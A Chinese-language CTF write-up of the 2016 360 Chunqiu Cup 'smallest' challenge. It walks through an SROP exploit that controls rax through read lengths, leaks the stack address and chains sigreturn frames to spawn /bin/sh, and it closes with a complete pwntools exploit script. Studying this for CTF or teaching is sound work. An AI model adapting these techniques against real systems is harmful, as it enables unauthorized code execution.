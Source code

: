## 例题：2016-360春秋杯-srop
首先还是进行check检查
![](http://imgsrc.baidu.com/super/pic/item/f3d3572c11dfa9ecceeec3d627d0f703908fc12b.jpg)
嗯十分友好，接下来看看程序主体部分。
由于这个程序十分简单，我们直接用objdump进行观看
![](http://imgsrc.baidu.com/super/pic/item/1f178a82b9014a90e800d27cec773912b31bee31.jpg)
是的没看错，就这么简单，大致讲解下代码含义：
        1. xor    %rax,%rax       //这里是将rax进行异或，咱们相同值异或结果为0，所以这里的含义即为将rax清0
        2. mov  %0x400,%edx   //移入0x400到edx中
        3. mov  %rsp,%rsi       //将栈首地址移入rsi中
        4. mov  %rax,%rdi      //将rax移入rdi中
        5. syscall                    //根据rax的值进行系统调用
        6. ret 
          
由于是64位程序，所以这里咱们可以知道这个函数是进行了read的系统调用，其参数分别处于rdi，rsi，rdx中，分别为0，站地址，0x400,也就是说从输入端读入0x400个字节至栈顶部分。
这里咱们首先想到[/md][md]修改rax来执行系统调用，但是我们如何在仅有的汇编代码下实现修改rax呢，可能有人会想到SROP，嗯，小伙子反应的很快，但是咱们这里还暂时用不了，所以我们这里利用了一个小技巧，那就是在进行read函数调用的过程中，rax会记录你总共所输入的字节数，所以我们会想到，如果咱们在这儿输入特定大小的值，那不就可以任意构造rax了嘛，这里我们进行实验给大伙看看。
  
---
这里是第一次执行syscall时的栈结构
![](http://imgsrc.baidu.com/super/pic/item/8694a4c27d1ed21be3abba24e86eddc450da3f95.jpg)
按照程序原来的意思执行一次read函数的系统调用后，此时我们任意输入一个值，我这里输入abcde
![]([img]http://imgsrc.baidu.com/super/pic/item/c8177f3e6709c93da8aa9a36da3df8dcd0005493.jpg)
可以看到这里咱们的栈是任由咱们写的，然后下一条指令又是ret，所以我们会在此时跳转到我们写的这个值这里，在这儿也就是` call 0xa6564636261`,所以咱们这里有那么点想法，如果咱们要修改rax的值，那肯定要绕过第一条xor指令，所以咱们可以在栈上首先构造三个0x4000b0，至于为什么是三个，我之后会进行讲解。
### 第一步
在第一次read系统调用后，咱们输入三个0x4000b0（也即是xor的地址，由于没开地址随机，所以此值固定），此时栈结构如下
![](http://imgsrc.baidu.com/super/pic/item/d833c895d143ad4bd765d201c7025aafa50f06a3.jpg)
此时ret之后，咱们会跳转至xor进行重新一论的程序执行，在执行read的系统调用时，咱们输入‘\xb3’,这样的话会将第二个0x4000b0修改为0x4000b3，并且此时他是在栈上的，而且由于咱们现如今输入一个字节，所以rax也会加一，我们来调试看看是否如此
![](http://imgsrc.baidu.com/super/pic/item/203fb80e7bec54e7ac548edffc389b504ec26ab3.jpg)
可以看到确实修改成功，而此时根据程序流程，我们将会跳到0x4000b3进行执行，也就跳过了清空rax的过程，所以此时咱们（由于rax = 1）就会接着执行write的系统调用，并且打印出了栈顶地址，执行效果如下
![](http://imgsrc.baidu.com/super/pic/item/b64543a98226cffc04982b73fc014a90f703ea45.jpg)
### 第二步
        这里还有个小知识，那就是关于系统调用号，这里给出64位的相关调用号
        

|系统调用 | 调用号 | 函数原型 |
| -------- | -------- | -------- |
| read    | 0     | read( int fd, void *buf, size_t count )    |
| write    | 1     |write( int fd, const void *buf, size_t count )    |
| sigreturn   | 15     |int sigreturn( … )     |
| execve    | 59     | execve( const char *filename, char *const argv[], char *const envp[] )     |

执行到这里，由于咱们泄露出了栈顶地址，所以咱们最好就少动他，因为咱们之后要用到他的，所以咱们来小试牛刀一把，先利用SROP的思路进行read系统调用。
还记得咱们有三个0x4000b0么，此时还剩下最后一个，所以咱们此时在执行完write的系统调用之后会继续跳转到xor指令，但此时咱们不同了，这次咱们在栈上构造的为0x4000b0 + syscall地址 + read函数的伪造寄存器压栈值，这里我会讲解为何如此构造。
首先构造0x40000b0的目的是方便下一次执行循环，且下一次执行循环之后栈顶上的值会变为
syscall的地址，此时若在此轮read中咱们输入15个值，即可进行sigreturn的系统调用，但是如何输入值却又不改变栈上的值呢，那就是输入同样的值不就行了.
而在进行如下构造
```
read = SigreturnFrame()
read.rax = constants.SYS_read #read函数系统调用号
read.rdi = 0  #read函数一参
read.rsi = stack_addr  #read函数二参
read.rdx = 0x400  #read函数三参
read.rsp = stack_addr  #和rsi寄存器中的值保持一致，确保read函数写的时候rsp指向stack_addr
read.rip = syscall_ret #使得rip指向syscall的位置，在部署好read函数之后能直接调用0
pl2 = p64(0x4000b0) + p64(syscall_ret) + bytes(read)
pause()
#==== third read ====#
io.send(pl2)    #orchestral stack 
#gdb.attach(io)
#pause()
#==== fourth read ====#
io.send(pl2[8:8+15]) #put in place,so that we can syscall(rax:15) for sigreturn
```
其中后面的send即为修改rax所发送的，注意在本次系统调用是咱们自主调用而不是依照程序流程所得，在此之后由于咱们对于sigreturnframe的构造，接下来会进行read的系统调用。
### 第三步
由于又是一次read的系统调用，所以此时咱们还是选择类似上面write一样进行execve系统调用，只不过这里利用了点sigreturn的知识，这里还有个需要注意的点那就是/bin/sh的构造是构造到栈上然后自行计算偏移地址，这里我就不多讲了想必大伙已经捻熟于心，所以此次执行后再次进行SROP攻击，最终结果如下
![](http://imgsrc.baidu.com/super/pic/item/5fdf8db1cb134954b3f97ca5134e9258d0094a08.jpg)
大获全胜！！！
## 总结
总结是什么呢，总结就是注意点send和sendline的区别，还有就是经过sigreturnframe构造的串，用bytes(read)跟用bytes(str(read),'utf8')不一样，坑死我了。对于今天攻击的技巧而言更多是对syscall等系统调用的深入理解了。
 
---
以下附上exp：
```
from pwn import *
io = process('./smallest')
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']
syscall_ret = 0x4000be
#==== first read ====#
pl = p64(0x4000b0)*3
gdb.attach(io)
io.send(pl)         #let the ret_addr to 0x4000b0
pause()
#==== second read ====#
io.send('\xb3')     #let the ret_addr to 0x4000b3
io.recv(8)          #rax is 0x1,syscall for write
stack_addr = u64(io.recv(8))
io.success('stack_addr ==>'+hex(stack_addr))
read = SigreturnFrame()
read.rax = constants.SYS_read #read函数系统调用号
read.rdi = 0  #read函数一参
read.rsi = stack_addr  #read函数二参
read.rdx = 0x400  #read函数三参
read.rsp = stack_addr  #和rsi寄存器中的值保持一致，确保read函数写的时候rsp指向stack_addr
read.rip = syscall_ret #使得rip指向syscall的位置，在部署好read函数之后能直接调用0
pl2 = p64(0x4000b0) + p64(syscall_ret) + bytes(read)
pause()
#==== third read ====#
io.send(pl2)    #orchestral stack 
#gdb.attach(io)
#pause()
#==== fourth read ====#
io.send(pl2[8:8+15]) #put in place,so that we can syscall(rax:15) for sigreturn

#==== sigreturn read ====#
execve = SigreturnFrame()
execve.rax = constants.SYS_execve
execve.rdi = stack_addr + 0x120
execve.rsi = 0
execve.rdx = 0
execve.rsp = stack_addr
execve.rip = syscall_ret

pl3 = p64(0x4000b0) + p64(syscall_ret) +  bytes(execve)
print(len(pl3))
#pause()
pl3 += (0x120 - len(pl3))*b'\x00' + b'/bin/sh\x00'

io.send(pl3)
#pause()
io.send(pl3[8:8+15])
#gdb.attach(io)
io.interactive()

```
